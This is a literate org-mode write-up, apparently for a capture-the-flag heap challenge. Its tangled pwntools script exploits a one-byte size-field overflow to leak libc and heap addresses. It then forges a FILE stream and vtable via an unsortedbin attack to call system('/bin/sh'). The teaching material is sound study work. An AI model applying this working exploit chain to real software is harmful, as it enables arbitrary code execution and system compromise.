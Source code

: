 #+PROPERTY: header-args :tangle xpl.py :tangle-mode (identity #o744)

#+TITLE: One-Byte Overwrite Challenge

* Table of Contents                                                 :TOC:
- [[#preamble][Preamble]]
- [[#the-vulnerability][The Vulnerability]]
- [[#the-exploit][The Exploit]]
  - [[#leak-the-unsorted_bin-address][Leak the ~unsorted_bin~-address]]
  - [[#leak-a-heap-address][Leak a heap address]]
  - [[#restoring-heap-state-in-order-to-leverage-an-unsorted_bin-attack][Restoring heap state in order to leverage an ~unsorted_bin~-attack]]
  - [[#the-actual-file-stream-exploitation][The actual File-Stream Exploitation]]
  - [[#fire-it-up][Fire it up]]

* Preamble

#+BEGIN_SRC python 
    #!/usr/bin/python3
    from pwn import *

    elf = context.binary = ELF("one_byte")
    libc = ELF(elf.runpath + b"/libc.so.6") # elf.libc broke again

    gs = '''
    set breakpoint pending on
    break _IO_flush_all_lockp
    enable breakpoints once 1
    continue
    '''
    def start():
        if args.GDB:
            return gdb.debug(elf.path, gdbscript=gs)
        else:
            return process(elf.path)

    # Index of allocated chunks.
    index = 0

    # Select the "malloc" option.
    # Returns chunk index.
    def malloc():
        global index
        io.sendthen(b"> ", b"1")
        index += 1
        return index - 1

    # Select the "free" option; send index.
    def free(index):
        io.send(b"2")
        io.sendafter(b"index: ", f"{index}".encode())
        io.recvuntil(b"> ")

    # Select the "edit" option; send index & data.
    def edit(index, data):
        io.send(b"3")
        io.sendafter(b"index: ", f"{index}".encode())
        io.sendafter(b"data: ", data)
        io.recvuntil(b"> ")

    # Select the "read" option; read 0x58 bytes.
    def read(index):
        io.send(b"4")
        io.sendafter(b"index: ", f"{index}".encode())
        r = io.recv(0x58)
        io.recvuntil(b"> ")
        return r

    io = start()
    io.recvuntil(b"> ")
    io.timeout = 0.1
#+END_SRC
* The Vulnerability
The vulnerability here lies in the fact, that we just are able to overwrite one byte of the succeeding chunk,
i.e. the ~size~-field of the succeeding chunk.

* The Exploit
** Leak the ~unsorted_bin~-address
*** Preparation
In order to leak the address of the unsorted-bin, we need to prepare an already allocated chunk being overlapped
by an already freed chunk in the ~unsorted_bin~. Therefore we will request 4 chunks:
- The first chunk is just a 0x60-sized small chunk
- The second one is the one with its size being extended via the aforementioned overflow-bug
  (i.e. extended to overlap the already allocated 3rn chunk)
- The 3rd chunk is the one that will end up into the ~unsorted_bin~ as well as still being marked
  as allocated on the heap
- The 4th ist just there for preventing a future consolidation of the 3rd chunk with the ~top_chunk~

  #+begin_src python :tangle yes
    # Request 4 chunks.
    chunk_A = malloc()
    chunk_B = malloc()
    chunk_C = malloc()
    chunk_D = malloc() # Guard against consolidation with top chunk.
    chunk_E = malloc()

    # Overflow from chunk A into chunk B's size field.
    edit(chunk_A, b"Y"*88 + p8(0xc1))

    # Chunk B is now a 0xc0 chunk, the sum of 2 0x60 chunks.

    # Free chunk B into the unsortedbin.
    free(chunk_B)
    #+end_src
*** Writing ~unsorted_bin~-metadata into chunk C
Now requesting a 0x60-sized chunk, i.e. ~chunk_B~, will triggering the so-called =remaindering=-procedure.
This procedure will happen, cause we just a so called last remainder into the unsorted bin. Otherwise it would
occassionally happen, if we had a chunk being sorted into its appropriate small- or largebin, which is not the case
here, since it's the last remainder.
This will lead to ~unsorted_bin~-metadata being written into ~chunk_C~. ~chunk_C~ is still allocated.
So this step is necessary due to the fact, that we can only read from chunks still being allocated.

#+begin_src python :tangle yes
  # This request remainders chunk B, writing unsortedbin metadata into chunk C.
  chunk_B = malloc()
#+end_src

The unsortedbin address will be at offset 0x58 from ~main_arena~'s address
#+begin_src python :tangle yes
  # Leak the main arena's unsortedbin address via chunk C.
  libc.address = u64(read(chunk_C)[:8]) - (libc.sym.main_arena + 0x58)
  log.info(f"libc @ 0x{libc.address:02x}")
#+end_src
** Leak a heap address

In order to leak a heap address, we will restore the state with just 4 0x60-sized chunks being
allocated on the heap:

#+begin_src python :tangle yes
  # Request the remainder that overlaps chunk C.
  chunk_C2 = malloc()
#+end_src

Freeing ~chunk_A~, then ~chunk_C2~ will end up in fastbin metadata being written into chunk C.
#+begin_src python :tangle yes
  # Free chunk A then C2, writing fastbin metadata into chunk C.
  free(chunk_A)
  free(chunk_C2)
#+end_src

Now heap address is being ready wo be read from ~chunk_A~

#+begin_src python :tangle yes
# Leak a heap address via chunk C.
heap = u64(read(chunk_C)[:8])
log.info(f"heap @ 0x{heap:02x}")
#+end_src
** Restoring heap state in order to leverage an ~unsorted_bin~-attack

#+begin_src python :tangle yes
  # =-=-=- PREPARE TO TAMPER WITH UNSORTEDBIN METADATA -=-=-=

  # Return chunk C2 from the fastbins, followed by chunk A.
  chunk_C2 = malloc()
  chunk_A = malloc()

  # Once again leverage an overflow from chunk A  into chunk B's size field.
  edit(chunk_A, b"Y"*88 + p8(0xc1))

  # Free chunk B into the unsortedbin again.
  free(chunk_B)

  # Remainder chunk B again.
  chunk_B = malloc()

  # Now an unsorted chunk overlaps chunk C, in preparation for an unsortedbin attack.
#+end_src

Now an unsorted chunk should overlap chunk C, in preparation for an unsortedbin attack.

** The actual File-Stream Exploitation

#+BEGIN_SRC python :tangle yes
  # =-=-=- PREPARE UNSORTEDBIN ATTACK & FAKE FILE STREAM -=-=-=

  # Write the string "/bin/sh" into the file stream's _flags field.
  edit(chunk_B, p64(0)*10 + b"/bin/sh\0")

  # Overwrite the unsorted chunk's bk & ensure _IO_write_ptr > _IO_write_base.
  # The _mode field is already null thanks to calloc().
  edit(chunk_C, p64(0) + p64(libc.sym._IO_list_all - 16) + p64(1) + p64(2))

  # Forge a vtable pointer and vtable, in this case the vtable overlaps the
  # _unused2 field of the file stream to save space.
  edit(chunk_E, p64(libc.sym.system) + p64(heap + 0x178))
#+END_SRC

** Fire it up
#+begin_src python :tangle yes
io.interactive()
#+end_src

